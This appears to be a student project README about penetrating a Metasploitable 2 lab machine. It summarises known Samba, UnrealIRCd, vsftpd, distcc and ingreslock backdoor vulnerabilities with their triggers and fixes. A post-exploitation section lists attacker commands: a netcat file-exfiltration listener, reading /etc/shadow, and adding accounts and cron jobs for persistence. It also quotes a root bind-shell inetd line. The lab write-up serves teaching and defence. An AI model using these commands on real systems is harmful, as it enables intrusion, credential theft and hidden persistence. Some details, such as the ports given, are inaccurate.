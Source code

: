 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/).

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding of system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I will be using different python3 functions. This allows the users to be able to view well documented code in an easy to read format. 

## System Requirements:
- Metasploitable 2
- Virtualbox

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol.
- Exploit: If Samba is configured to use the username map script and it is improperly configured, anyone can send arbitrary commands in disguise as a username to the server. The data sent to the targeted machine is not sanitized. The command will then be run without needing authorization.
- Fix: To fix this, the user can update to a new version. If they are still on the older version, the user can navigate to /etc/samba/smb.conf on the vulnerable machine. The user can then either comment out or remove the line "username map script = /etc/samba/scripts/mapusers.sh". 

### UnrealIRCd CVE-2010-2075
- Version: 3.2.8.1
- Port: 6667
- Desc: UnrealIRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealIRCD contains an exploit where it will execute any command with the priviledges of the user that is running the service if it begins with the string 'AB'. Ex: AB; [command to run].
- Exploit Cont: This exploit was introduced because someone had replaced all UnrealIRCD file download options on their mirror sites with a version that had a trojan in it.
- Fix: The only way to fix this exploit is to redownload a legitamate version of Unreal. This is because the backdoor is located in the "core" of the service (according to the developers).

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Port: 2121
- Desc: VSFTP is an FTP server for linux. 
- Exploit: There was a backdoor built into the VSFTP service that allows someone to gain root access to a targeted machine if they login with a username that has ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.
- Fix: The individual could update the the service or if they are still running on the version with the backdoor, they could set up an iptable to drop unused ports. (Which should be done anyways). Ex: iptables -A INPUT -p tcp --dport 6200 -j DROP and iptables -A INPUT -p udp --dport 6200 -j DROP

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any. Unleass the version is using ssh key pairs.
- Port: 25
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security and poor cyber security practices.
- Fix: Use strong passwords that can not be easily guessed. A more secure option would be to set up ssh key pairs.

### DistCC CVE-2004-2687
- Version: 2.x
- Port: 36255
- Desc: Distccd is a service that allows for a faster compilation time of C programs by distributing the compilation tasks across multiple different machines where it is able to find resources to do so.
- Exploit: DistCCD has a vulnerability that allows an attacker to execute arbitray commands on the targeted system. This is because the distccd daemon improperly handles commands send to it as a compilation request.
- Fix: Other than updating distccd to a version where the exploit has been patched, the user can configure distccd to only accept connection from trusted hosts through the use of a custom firewall configuration.

### Ingreslock 
- Version: ""
- Port: 1524 
- Desc: Ingreslock 
- Exploit: There was a backdoor implemented into Ingreslock on Metasploitable 2. Ingreslock was a popular target for users to add a backdoor on in the past. Often times, machines would be compromised by malicoius code (from software etc...) and it would implement the backdoor on the machine.
- Fix: Navigate to the /etc/inetd.conf file and remove the line "ingreslock stream tcp nowait root /bin/bash bash -i"


## Post-Exploitation Examples:
- Example of an attacker retrieving files from the remote machine
  - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
  - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]
- Example of an attacker doing further recon on the system (can help them discover more vulnerabilities by knowing the system specs)
  - uname -a
  - lsb_release
- Example of how an attacker can easily obtain passwords etc
  - cat /etc/shadow (or by directly downloading the file to their local machine)
- Example of an attacker maintaining access (create multiple accounts to blend in)
  - "sudo useradd -m -s /bin/bash newuser" and also "sudo passwd newuser"
  - Creating a cron job to allow access back to the machine during certain times to avoid being detected
  - 
